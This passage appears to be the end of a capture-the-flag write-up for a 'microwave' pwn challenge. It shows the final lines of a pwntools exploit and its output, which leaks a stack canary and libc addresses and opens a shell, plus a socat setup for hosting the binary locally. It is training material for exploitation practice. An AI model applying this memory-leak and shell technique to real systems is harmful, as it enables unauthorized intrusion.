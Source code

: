 ```python
# exploit
p.sendline(buf)
p.clean()

# interact with it
p.interactive()

```

It is then possible to ```cat``` the flag.

```bash
$ ./microwave-pwn.py
[+] Opening connection to 127.0.0.1 on port 1337: Done

 --------------------------------------------------------
 |     Welcome to the next generation of MicroWaves!    |
 |                         ***                          |
 | This stylish Microwave with Grill function, includes |
 |      a function that tweets your favourite food!     |
 |                         ***                          |
 --------------------------------------------------------
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food|
           |  q. Exit                       |
           ----------------------------------

           [MicroWave]:
['0xa', '0x7f192241b870', '0x7f1922b16740', '0x7f192291aac0', '(nil)', '0x4cacfb0061420700', '0x7f19226ef870', '0x7f19226ef878', '']
canary is 0x4cacfb0061420700
libc base: 0x7f1922330000
magic addr: 0x7f192237652c

           #>
[*] Switching to interactive mode
$ ls

```

To reproduce the execution locally, I used socat with the following tweak:

```bash

$ cat doit.sh
#!/bin/bash
LD_PRELOAD=./libc.so.6 ./microwave_61f50dba931bb10ab3089215b2e188f4
$ socat tcp-l:1337,reuseaddr,fork exec:./doit.sh

```

<h3 id="note">Note</h3>
On some systems, using <a href="http://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html">LD_PRELOAD</a> won't work and thus <a href="http://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html">LD_LIBRARY_PATH</a> with the full path to the folder containing the provided libc (<em>libc.so.6</em>) should be provided.
